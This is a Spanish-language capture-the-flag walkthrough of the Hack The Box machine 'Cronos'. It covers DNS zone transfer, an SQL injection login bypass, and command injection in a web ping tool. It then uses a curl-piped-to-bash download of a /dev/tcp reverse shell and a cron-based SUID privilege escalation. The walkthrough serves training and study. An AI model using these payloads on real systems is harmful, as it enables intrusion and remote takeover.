






---

# Ficha técnica


- **Máquina:** Cronos
- **Dificultad:** Media
- **Plataforma:** Hack The Box
- **Creador:** ch4p
- **Resumen:** Cronos es una máquina de dificultad media que comienza con enumeración DNS mediante transferencia de zona y un _bypass_ de autenticación en el panel web a través de inyección SQL. Para el acceso inicial, se explota la herramienta _NetTools_, la cual carece de sanitización en el parámetro de dirección IP, lo que permite la inyección de comandos maliciosos. Finalmente, la escalada de privilegios se consigue al detectar una tarea _cron_ que ejecuta un script de PHP con privilegios de superusuario sobre el cual el usuario `www-data` tiene control.

---

## **1. Reconocimiento**

### **1.1. Comprobación de conectividad**

Se verificó la accesibilidad con el sistema objetivo mediante el envío de cuatro paquetes ICMP:

```bash
ping -c 4 10.129.227.211
```

```plaintext
ping -c 4 10.129.227.211
PING 10.129.227.211 (10.129.227.211) 56(84) bytes of data.
64 bytes from 10.129.227.211: icmp_seq=1 ttl=63 time=115 ms
64 bytes from 10.129.227.211: icmp_seq=2 ttl=63 time=116 ms
64 bytes from 10.129.227.211: icmp_seq=3 ttl=63 time=115 ms
64 bytes from 10.129.227.211: icmp_seq=4 ttl=63 time=113 ms

--- 10.129.227.211 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3006ms
rtt min/avg/max/mdev = 113.143/114.495/115.521/0.860 ms
```

> **Conclusión:** El 0% de pérdida de paquetes evidencia una conectividad estable con el objetivo. Asimismo, un valor de TTL de 63 —próximo al valor predeterminado de 64 en sistemas Linux— indica con alta probabilidad que la máquina opera bajo este sistema operativo.

---

### **1.2. Escaneo de puertos TCP**

A continuación, se realizó un escaneo del rango completo de puertos TCP utilizando _Nmap_:

```bash
sudo nmap -p- --open -sS --min-rate 5000 -Pn -n 10.129.227.211
```

```plaintext
Nmap scan report for 10.129.227.211
Host is up (0.13s latency).
Not shown: 65532 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http
```

> **Conclusión:** El escaneo revela únicamente tres puertos abiertos. No obstante, los servicios en los puertos 53 (DNS) y 80 (HTTP) presentan una superficie de ataque significativa, mientras que el puerto 22 (SSH) representa una potencial vía de acceso remoto si se logran obtener credenciales válidas o claves privadas.

---

## 2. Enumeración

### 2.1. Enumeración general de puertos abiertos

Una vez identificados los puertos abiertos, se realizó un escaneo más exhaustivo para determinar las versiones y los servicios en ejecución mediante _Nmap_:

```bash
sudo nmap -p 22,53,80 -sCV -Pn -n 10.129.227.211
```

```plaintext
Nmap scan report for 10.129.227.211
Host is up (0.15s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 18:b9:73:82:6f:26:c7:78:8f:1b:39:88:d8:02:ce:e8 (RSA)
|   256 1a:e6:06:a6:05:0b:bb:41:92:b0:28:bf:7f:e5:96:3b (ECDSA)
|_  256 1a:0e:e7:ba:00:cc:02:01:04:cd:a3:a9:3f:5e:22:20 (ED25519)
53/tcp open  domain  ISC BIND 9.10.3-P4 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.10.3-P4-Ubuntu
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

#### Hallazgos relevantes

- **Sistema Operativo:** Ubuntu 16.04 (_Xenial Xerus_), lo que orienta el contexto sobre las tecnologías y versiones de software esperadas en el entorno.
- **Puerto 22 (SSH - OpenSSH 7.2p2):** Servicio de acceso remoto que cuenta con características conocidas de vulnerabilidad a la enumeración de usuarios, lo cual podría ser útil en una fase posterior para perfilar cuentas válidas en el sistema.
- **Puerto 53 (DNS - ISC BIND):** Al tratarse de un servicio de resolución de nombres expuesto, se convierte en un objetivo prioritario para realizar pruebas de enumeración (como la verificación de transferencias de zona o consultas de registros) en busca de posibles subdominios ocultos.
- **Puerto 80 (HTTP - Apache 2.4.18):** El servidor web muestra únicamente la página por defecto. Esto indica la necesidad de realizar un descubrimiento exhaustivo de directorios y evaluar la existencia de _vhosts_ (alojamiento virtual) que puedan revelar aplicaciones web funcionales.

---

### 2.2. Enumeración DNS

Dado que el servidor web muestra la página predeterminada de Apache, es probable que se emplee _Virtual Hosting_. Para acceder al contenido real del sitio, la prioridad fue enumerar el servicio DNS en busca de nombres de dominio válidos. Se comenzó realizando una búsqueda inversa mediante _nslookup_:

```bash
nslookup 10.129.227.211 10.129.227.211
```

```plaintext
211.227.129.10.in-addr.arpa	name = ns1.cronos.htb.
```

La consulta confirmó que el servidor de nombres opera bajo el dominio `cronos.htb`. Con esta información, se procedió a intentar una transferencia de zona (_AXFR_) utilizando _dig_ para enumerar subdominios de forma limpia, evitando el uso de fuerza bruta:

```bash
dig AXFR cronos.htb @10.129.227.211
```

```plaintext
; <<>> DiG 9.20.29-1-Debian <<>> AXFR cronos.htb @10.129.227.211
; (1 server found)
;; global options: +cmd
cronos.htb.		604800	IN	SOA	cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.		604800	IN	NS	ns1.cronos.htb.
cronos.htb.		604800	IN	A	10.10.10.13
admin.cronos.htb.	604800	IN	A	10.10.10.13
ns1.cronos.htb.		604800	IN	A	10.10.10.13
www.cronos.htb.		604800	IN	A	10.10.10.13
cronos.htb.		604800	IN	SOA	cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
;; Query time: 432 msec
;; SERVER: 10.129.227.211#53(10.129.227.211) (TCP)
;; WHEN: Sat Oct 10 10:52:25 CST 2026
;; XFR size: 7 records (messages 1, bytes 203)
```

**Hallazgos relevantes:**

- **Subdominios descubiertos:** Se identificaron los registros `admin.cronos.htb`, `ns1.cronos.htb` y `www.cronos.htb`, los cuales deben agregarse al archivo local `/etc/hosts` para permitir su correcta resolución.
- **Información de contacto (SOA):** El registro _Start of Authority_ expone el correo del administrador (`admin@cronos.htb`), lo que perfila a `admin` como un posible nombre de usuario válido para futuros vectores de ataque.

---

### 2.3. Enumeración web

El dominio principal (`cronos.htb`) presenta un sitio estático titulado Cronos con enlaces externos a **Laravel**, tecnología empleada en el desarrollo de la página


Por otro lado, al acceder al subdominio `admin.cronos.htb`, se presenta un panel de autenticación que solicita un nombre de usuario y una contraseña. Se probaron credenciales predeterminadas comunes (como `admin:admin` o `laravel:laravel`), pero ninguna arrojó resultados positivos.



Ante la posibilidad de que la validación de las credenciales se realice contra una base de datos vulnerable, se probó una inyección SQL (_SQLi_) básica para intentar un _bypass_ de autenticación introduciendo el siguiente _payload_ en el campo de usuario:

```SQL
admin' OR 1=1-- -
```



> **Conclusión:** El intento de _bypass_ mediante inyección SQL fue exitoso, permitiendo el acceso al panel de administración interno. Dicha interfaz expone una herramienta de red denominada _Net Tool v0.1_, la cual permite introducir una dirección IP para ejecutar comandos como _ping_ o _traceroute_. Este comportamiento representa un vector crítico de vulnerabilidad si la entrada del usuario no es debidamente sanitizada, ya que abriría la puerta a una inyección de comandos en el sistema operativo.

---

## 3. Explotación

### **3.1. Prueba de concepto (PoC)**

Para comprobar la ejecución remota de comandos, se diseñó una PoC inicial con el objetivo de verificar si la aplicación procesaba instrucciones a nivel de sistema operativo y si era capaz de emitir tráfico ICMP hacia la máquina atacante. El primer paso consistió en poner la interfaz de red en modo de escucha mediante _tcpdump_:

```bash
sudo tcpdump -i tun0 icmp
```

A continuación, en la interfaz web, se seleccionó la opción de _ping_ y se introdujo la dirección IP de atacante en el campo correspondiente:

```plaintext 
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
21:44:37.595372 IP cronos.htb > 10.10.17.6: ICMP echo request, id 13971, seq 1, length 64
21:44:37.601230 IP 10.10.17.6 > cronos.htb: ICMP echo reply, id 13971, seq 1, length 64
```

El resultado confirmó de forma contundente que el comando se ejecutó en el sistema objetivo y que este emitió los paquetes de vuelta, descartando además que la aplicación web estuviera aislada dentro de un contenedor u otro entorno virtualizado.

El siguiente paso consistió en comprobar el nivel de sanitización sobre los parámetros de entrada. Dado que en sistemas Linux es posible encadenar múltiples instrucciones en una sola línea utilizando el operador `;`, se evaluó un vector básico inyectando el siguiente _payload_:

```bash
ping 10.10.16.7; whoami
```



> **Conclusión:** El _payload_ funcionó de manera exitosa, permitiendo la ejecución concatenada de comandos y revelando que la aplicación web opera bajo el contexto del usuario `www-data`.

---

### 3.2. Acceso inicial

Una vez confirmada la ejecución remota de comandos, se procedió con la fase de explotación para obtener una _reverse shell_ (consola interactiva inversa) mediante la siguiente metodología:

**Paso 1:** Se creó un archivo local `index.html` que contenía la reverse shell:

```bash
bash -i >& /dev/tcp/10.10.17.6/9001 0>&1
```

**Paso 2:** Se levantó un servidor HTTP rápido en el directorio que contenía el archivo malicioso utilizando Python:

```bash
sudo python3 -m http.server 80
```

**Paso 3:** Se preparó un oyente local con _Netcat_ para recibir la conexión entrante en el puerto designado:

```bash
nc -nlvp 9001
```

**Paso 4:** Se introdujo un comando concatenado en la interfaz web para descargar el contenido alojado en el equipo atacante e interpretarlo directamente en el sistema objetivo:

```bash
10.10.17.6; curl http://10.10.17.6 | bash
```



> **Conclusión:** La explotación se completó con éxito, logrando establecer una sesión interactiva y obtener acceso al sistema a través del usuario `www-data`.

---

## 4. Post-Explotación

### 4.1. Escalada de privilegios

Tras realizar una enumeración básica del sistema, se revisó la configuración de las tareas programadas (_crontab_), encontrando el siguiente registro de interés:

```plaintext
# m h dom mon dow user	command
17 *	* * *	root    cd / && run-parts --report /etc/cron.hourly
25 6	* * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.daily )
47 6	* * 7	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.weekly )
52 6	1 * *	root	test -x /usr/sbin/anacron || ( cd / && run-parts --report /etc/cron.monthly )
* * * * *	root	php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
```

La última línea indica que el usuario `root` ejecuta cada minuto el comando de Laravel a través de PHP. Al verificar los permisos del archivo involucrado:

```bash
ls -la /var/www/laravel/artisan
```

```plaintext
-rwxr-xr-x 1 www-data www-data 1646 Apr  9  2017 /var/www/laravel/artisan
```

> **Hallazgo crítico:** El archivo pertenece al usuario `www-data`, pero es ejecutado periódicamente por el usuario `root`. Esto permite modificar su contenido de forma arbitraria para que cualquier instrucción integrada se ejecute con privilegios de superusuario cada minuto.

Para explotar este vector, se sustituyó el contenido del archivo por el siguiente fragmento de código PHP malicioso destinado a otorgar permisos SUID a Bash:

```php
<?php system('chmod u+s /bin/bash'); ?>
```

A continuación, se monitoreó el cambio de permisos en tiempo real:

```bash
watch -n 1 ls -la /bin/bash
```

Una vez confirmado que el bit SUID se asignó correctamente a la _bash_, se ejecutó el siguiente comando para consolidar la sesión privilegiada:

```bash
/bin/bash -p
```



> **Conclusión:** Se logró escalar privilegios de forma exitosa, obteniendo el control total de la máquina y concluyendo la resolución del reto.



---
